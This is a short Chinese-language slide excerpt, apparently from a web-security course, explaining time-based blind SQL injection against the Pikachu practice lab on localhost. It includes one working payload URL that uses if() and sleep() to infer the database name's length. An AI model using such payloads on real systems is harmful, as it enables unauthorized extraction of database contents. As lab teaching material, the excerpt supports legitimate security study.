

延时盲注
利用if语句，构造在特定条件下才发生延时的语句，从而进行爆破。
http://127.0.0.1/pikachu/vul/sqli/sqli_blind_t.php?name=-1' or if(length(database())=7,sleep(0.2),0)%23&submit=%E6%9F%A5%E8%AF%A2
延时注入脚本介绍